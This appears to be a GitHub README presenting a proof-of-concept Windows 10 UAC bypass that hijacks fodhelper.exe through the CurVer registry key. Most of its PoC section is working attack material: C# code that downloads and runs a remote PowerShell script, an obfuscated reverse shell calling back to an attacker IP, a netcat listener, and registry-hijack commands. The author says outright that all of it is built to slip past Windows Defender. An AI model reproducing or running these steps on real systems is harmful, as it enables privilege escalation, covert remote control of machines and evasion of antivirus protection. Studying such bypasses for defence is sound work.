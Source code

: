 # UAC-Bypass-2023

## User Account Control Bypass without triggering Windows Defender
## Author: Ruggero Tafuro
## Date: 13-05-2023

## What is UAC?
UAC (User Account Control) is a security mechanism present in Windows operating systems that limits the
access of programs to user accounts with elevated privileges, such as administrators.
Its main strength is to protect the system from malware attacks, which try to exploit vulnerabilities to gain
administrator privileges and compromise the system.
UAC works by asking for explicit permission from the user whenever a program requests access to protected operating system resources, such as system folders, the system registry or security settings.
In this way, UAC prevents unauthorized or potentially harmful programs from modifying the system without the user’s consent.
Additionally, UAC can also help prevent user errors that could compromise system security. For example,
when a non-administrator user tries to perform an action that requires elevated privileges, UAC prompts
the user to provide administrator credentials to
grant permission.
In summary, the strength of UAC lies in its ability to limit the access of programs to administrator privileges and to request explicit user authorization whenever access to protected operating system resources is
requested.
This can help prevent malware attacks and user errors that could compromise system security.

## Fodhelper and the system registry:
Windows 10 environments allow users to manage language settings for a variety of Windows features
such as typing, text-to-speech etc.
When a user requests to open “Manage optional features” in Windows Settings to change the language, a
process under the name fodhelper.exe is created.
This process is running in high integrity because the binary file has the auto-elevation setting set to “true”.
“CurVer” is a Windows registry subkey that is used to specify the current version of a given object class or
registry path. This value is used to determine which version of an application or component the system
should load when prompted.
For example, when an application or component is installed on the system, it is usually recorded in the
system registry. The “CurVer” subfolder can be used to specify the current version of that application or
component, letting the system know which version to load when prompted.

## Bypass:
In Windows 10 an attacker in possession of a user with administrative privileges, but with a “medium”
level label, is allowed to generate a process with superior privileges (“high” level label).
This is possible thanks to the creation of keys within the system registry that manipulate the normal execution expected by fodhelper, so that it executes commands with elevated privileges bypassing the User
Account Contol (UAC) by executing .exe files.
Everything is reproducible without the Windows Defender detection.

## Severity:
The impact of the bypass that I personally evaluate is HIGH as it allows anyone authenticated with an administrative user with an RCE vulnerability to increase the integrity of their processes to “high”.
This exploit is currently exploitable within Windows 10 updated to the latest version.
In fact, in the following images you can see how the test system has been updated to the latest patch
available.

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c3136cd3-ae03-4a1f-9195-63facfc40269)
*1. List of Windows Update patches installed on the system*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/c26f4a81-832a-4923-af3b-b87165e95371)
*2. Windows Update - update to the latest available version released*

Windows Defender is correctly active in all its features
![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1b235a9a-2110-490a-b14b-7dca5bc91487)
*3. Windows Defender features*

## PoC:
We can assume that an attacker is already inside the target machine with an administrative user (in this
case “rugge”) and has the possibility to execute commands (RCE) inside a powershell.
For convenience and clarity, the commands will be executed by the user “rugge” directly from the target
system, but everything can also be reproduced in a scenario in which the attacker executes the commands
remotely.
The target machine will have the IP as shown:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/23d2ac14-fcb2-4d43-b7f8-1116d9ea2a96)
*4. IP Windows (target)*

While the attacking machine running Ubuntu 22.04 will have ip:

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/eea1efa5-73af-4041-8556-2f9f8cb25d1e)
*5. Ubuntu IP (attacker)*

The aim is to modify the fodhelper registers in particular HKCU:\Software\Classes\ms-settings\CurVer
pointing to a specially created one (HKCU\Software\Classes\.hack\Shell\Open\command) which will contain the executable (revs.exe) which will be run as soon as we call fodhelper.exe.

So let’s create an executable whose main purpose is to run a powershell.exe (copied from “C:\Windows\
System32\WindowsPowerShell\v1.0” and renamed to “ps.exe” inside a temporary folder “tempp ” so as
not to make Defender and/or a system user suspicious) with the sole command of executing in memory
the code contained in the file (script.ps1) that the target Windows will find at the address of the http
python simple-server that is hosted by the attacking machine (http://172.20.10.14:8000/script.ps1)
A possible source code example of the executable:

```
 using System;
 namespace PowerShellProject
 {
 class Program
 {
 static void Main(string[] args)
 {
 System.Diagnostics.Process.Start(@”C:\tempp\ps.exe”, “-c \”IEX([Net.Webclient]::new().DownloadString(‘http://172.20.10.14:8000/script.ps1’))\””);
 }
 }
 }
```

Once the code has been compiled and transferred to the target machine in the “tempp” temporary folder,
what we will have to do is to start the http python simple-server on the attacking machine with the same
listening port as the one in the “revs.exe”

```
 $ python3 -m http.server --bind 172.20.10.14 8000 
```
The script that will be requested by the target is nothing more than a simple obfuscated reverse shell to
not trigger Windows Defender:

example script.ps1 
``` 
$client = Ne’’w-Object System.Net.Sockets.TCPClient(‘172.20.10.14’,4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ‘PS ‘ + (pwd).Path + ‘> ‘;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Finally, still on the attacking machine, in another bash shell window we will start a “listener” ready to capture the outgoing connection of the reverse shell performed within the target machine.

``` 
 $ nc -lvnp 4444
``` 
So let’s go back to the target system and start executing the commands within a powershell that will
change the system registers.
The first command will launch the cmd to add a custom file association for the “.hack” extension in the
Windows registry, which allows you to open the .hack files with the revs.exe application present in the “C:\tempp\revs\revs\bin\Debug\net6.0”.

``` 
cmd /c ‘call reg add “HKCU\Software\Classes\.hack\Shell\Open\command” /v “” /d “\”C:\tempp\revs\revs\bin\Debug\net6.0\revs.exe\”” /f’
``` 

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2e424062-0893-4ff0-8286-b29f3a69c557)
*6. Registry key associated to .hack with call to revs.exe*

The second command instead will launch cmd which sets the “.hack” extension as the default value for
displaying system settings in Windows

```
cmd /c ‘call reg add “HKCU\Software\Classes\ms-settings\CurVer” /d “.hack” /f’
```

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/3f2871ee-82e6-4137-a9d6-63debce635c1)
*7. CurVer registry key referenced to .hack registry key*

At this point everything is ready to call fodhelper and receive the connection from the target Windows on
the attacking machine

```
cmd /c ‘call fodhelper.exe’
```

With this call fodhelper will use the memory registers which will start the executable revs.exe which will
contact the python server offering the script.ps1 which, once executed, will establish a connection to the
attacking machine creating a reverse shell with integrity level “high ”

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/1fc84235-1d46-4013-96ea-2d9332034613)
*8. Execute commands writing values to the system registry and calling revs.exe*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/63bb6a96-bc59-4c04-a8d6-fea8d550b07e)
*9.Target Windows GET request to the attacking server*

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/2b3bcfec-ab43-4a22-aeeb-81880beb86fb)
*10. Reverse shell integrity level obtained by the attacking machine*

We can also notify how Windows Defender did not get alarmed during operations and let us reach the goal
without its interference

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/b0d9c77d-32a8-4b17-9ff8-db21e1abdfc7)
*11. No threats detected by Windows Defender*

In this last image demonstrating the elevation of privileges, the integrity level (medium) of the powershell
on which we executed the commands is shown

![image](https://github.com/Rugeniere/UAC-Bypass-2023/assets/73703319/e9f28102-c7d4-4400-834f-42d7a0a3035b)
*12. Original powershell integrity level*


